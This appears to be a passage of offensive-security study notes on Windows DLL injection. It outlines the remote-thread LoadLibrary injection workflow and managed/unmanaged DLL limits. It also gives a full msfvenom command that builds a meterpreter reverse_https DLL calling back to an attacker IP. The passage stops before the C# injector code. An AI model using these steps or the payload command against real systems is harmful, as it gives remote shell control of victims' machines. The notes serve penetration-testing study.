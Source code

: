 
## 6. Summary of Workflow

1. **OpenProcess** → Get handle to target process.
2. **VirtualAllocEx** → Allocate space for DLL path.
3. **WriteProcessMemory** → Write DLL path into target.
4. **GetProcAddress(LoadLibraryA)** → Resolve LoadLibraryA address.
5. **CreateRemoteThread** → Start thread at LoadLibraryA with DLL path as parameter.
6. Target process executes malicious DLL’s `DllMain`.

---

## 7. Managed ↔ Unmanaged Compatibility

- ❌ **Managed DLL → Unmanaged process**: Not possible.
    - Managed DLLs depend on the .NET CLR runtime, which unmanaged processes do not load automatically.
- ✅ **Unmanaged DLL → Managed process**: Possible.
    - Managed (.NET) processes are still standard Windows processes that can load unmanaged DLLs.
    - Example: A C# program can use `[DllImport]` (P/Invoke) to call functions in unmanaged DLLs like `kernel32.dll`.

👉 So, while **unmanaged DLLs can be injected into both managed and unmanaged processes**, managed DLLs are limited to managed (.NET) environments only.

---

## 8. Key Takeaways

- DLL Injection relies on forcing a target to call **LoadLibrary**.
- The **payload is executed via `DllMain`**, usually at `DLL_PROCESS_ATTACH`.
- Only **unmanaged (native) DLLs** can be injected into arbitrary processes.
- Managed DLL injection into unmanaged processes is not feasible because no CLR is present.
- Tools like `msfvenom` simplify creation of malicious DLLs for injection.

## **DLL Injection with C#**

<img width="2628" height="3114" alt="_- visual selection" src="https://github.com/user-attachments/assets/74be5a47-a557-4088-81c3-e8141ebb020f" />

1. **Generating a Malicious DLL**
    
    We use **msfvenom** to create an unmanaged DLL payload:
    
    ```csharp
    	msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o met.dll
    ```
    
    This DLL contains the reverse shell payload in its **DllMain (DLL_PROCESS_ATTACH)** entry point.
    
2. **Create a new C# .NET Standard Console app** 
3. **Fetching the DLL in C#**
    
    Since `LoadLibrary` only accepts DLLs present on disk, our injector must first **download the DLL** and save it locally:
    
